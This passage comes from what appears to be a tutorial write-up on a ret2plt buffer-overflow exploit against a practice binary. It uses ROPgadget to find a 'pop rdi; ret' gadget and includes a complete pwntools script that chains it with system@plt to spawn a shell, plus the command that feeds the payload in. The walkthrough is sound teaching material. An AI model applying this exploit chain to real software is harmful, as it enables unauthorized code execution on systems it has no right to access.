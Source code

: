 We are interessted in the first line. This is the address of `system@plt`. This address is not randomized.
And this is also our stub to the real `system()`. Let's put that also into our exploit.

Are we good? No yet. One last piece is missing. We are running all this on a 64 Bit system. Which means
that arguments to a function, like "sh" for `system()`, needs to be passed via the `$rdi` register.

How do we get it in there? Glad you asked. As DEP is also enabled and we can't execute data from the stack anyways
we have to use a ROP technique aswell. We need a `pop rdi; ret` instruction that's already present within our binary.

We can search for one with the tool ROPGadget like so:

{{< highlight bash >}}
ROPgadget --binary ret2plt | grep rdi
{{< /highlight >}}

![pop-rdi](pop-rdi.png)

Hint: it's the second line. ;)

Let's update our exploit again and while we are at it, let's build our payload at the same time.
The finished exploit looks like this now:

{{< highlight python >}}
#!/usr/bin/python3
from pwn import *

# pwntools stuff for later
#p = process('./ret2plt')
#context(os='linux', arch='adm64')

junk = b"A" * 120
sh = p64(0x40301d)
system = p64(0x401030)
pop_rdi = p64(0x4011eb)

payload = junk + pop_rdi + sh + system

with open("payload", "wb") as w:
    w.write(payload)
{{< /highlight >}}

## Will it work though?

Let's run the exploit and check if an file called "payload" has been created. If so, let's run the following command:

{{< highlight bash >}}
(cat payload;cat) | ./ret2plt
{{< /highlight >}}

